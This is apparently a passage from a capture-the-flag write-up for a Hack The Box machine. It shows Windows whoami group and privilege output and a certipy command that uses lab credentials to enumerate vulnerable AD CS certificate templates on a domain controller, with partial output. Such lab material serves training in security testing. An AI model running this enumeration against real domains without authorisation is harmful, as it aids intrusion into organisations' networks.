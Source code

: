 ```sh
========================================== ================ ============ ==================================================
Everyone                                   Well-known group S-1-1-0      Mandatory group, Enabled by default, Enabled group
BUILTIN\Remote Management Users            Alias            S-1-5-32-580 Mandatory group, Enabled by default, Enabled group
BUILTIN\Users                              Alias            S-1-5-32-545 Mandatory group, Enabled by default, Enabled group
BUILTIN\Pre-Windows 2000 Compatible Access Alias            S-1-5-32-554 Mandatory group, Enabled by default, Enabled group
BUILTIN\Certificate Service DCOM Access    Alias            S-1-5-32-574 Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NETWORK                       Well-known group S-1-5-2      Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\Authenticated Users           Well-known group S-1-5-11     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\This Organization             Well-known group S-1-5-15     Mandatory group, Enabled by default, Enabled group
NT AUTHORITY\NTLM Authentication           Well-known group S-1-5-64-10  Mandatory group, Enabled by default, Enabled group
Mandatory Label\Medium Mandatory Level     Label            S-1-16-8192


PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.


```python
!certipy find -u 'john@tombwatcher.htb' -p 'Password1234!' -dc-ip 10.129.6.179 -vulnerable -enabled -stdout
```

    Certipy v4.8.2 - by Oliver Lyak (ly4k)
    
    [*] Finding certificate templates
    [*] Found 33 certificate templates
    [*] Finding certificate authorities
    [*] Found 1 certificate authority
    [*] Found 11 enabled certificate templates
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via CSRA
    [!] Got error while trying to get CA configuration for 'tombwatcher-CA-1' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
    [*] Trying to get CA configuration for 'tombwatcher-CA-1' via RRP
    [*] Got CA configuration for 'tombwatcher-CA-1'
    [*] Enumeration output:
    Certificate Authorities
      0
        CA Name                             : tombwatcher-CA-1
        DNS Name                            : DC01.tombwatcher.htb
        Certificate Subject                 : CN=tombwatcher-CA-1, DC=tombwatcher, DC=htb